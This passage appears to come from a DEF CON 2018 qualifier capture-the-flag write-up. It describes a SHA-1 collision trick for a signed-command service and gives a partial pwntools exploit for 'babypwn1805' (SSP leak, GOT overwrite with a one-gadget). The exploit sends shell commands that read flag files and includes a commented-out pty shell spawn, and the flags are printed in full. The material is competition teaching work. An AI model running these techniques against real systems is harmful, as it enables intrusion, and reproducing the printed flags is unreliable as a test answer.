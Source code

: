 ```OOO{Sometimes, the answer is just staring you in the face. We have all been there}```
Therefore, draw two command on picture,and put them into the pdf, Google released last year, to get two pdf with sha1-collision.

1. send the picutre 1 (`without EXECUTE`) to first service to `get the signature`

2. pass this signature and sha1-collision pdf ( with `EXECUTE cat<flag`) to get the flag.

[python script](https://github.com/sonickun/sha1-collider/blob/master/collider.py)

### babypwn1805 - pwn
* Overwrite the pointer of program name, and trigger `SSP` -> leak information.
* Get serveral `libc`.
* Overwite `GOT read` with `onegadget` -> with probability 1/16 (correct libc).
* `/opt/ctf/babypwn/home/flag`.
* `OOO{to_know_the_libc_you_must_become_the_libc}`
```python=
#!/usr/bin/env python
from pwn import *
import sys
import struct
import hashlib
import random
from threading import Timer

# OOO{to_know_the_libc_you_must_become_the_libc}

def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1


def hit():
    cmd = 'id;LD_PRELOAD='';'
    cmd += 'cat /opt/ctf/babypwn/home/flag;'
    cmd += 'ls -al /opt/ctf/babypwn/home/;'
    cmd += 'source /opt/ctf/babypwn/flag.txt 2>&1;'
    #cmd += 'python -c \'import pty; pty.spawn("/bin/bash")\''
    y.sendline( cmd )
    print y.recv( 2048 )


host , port = 'e4771e24.quals2018.oooverflow.io' , 31337
y = remote( host , port )

y.recvuntil( ': ' )
challenge = y.recvline().strip()
y.recvuntil( ': ' )
n = int( y.recvline() )
y.sendlineafter( ':' , str( solve_pow(challenge, n) ) )

success( 'Go' )

t = 0.3
```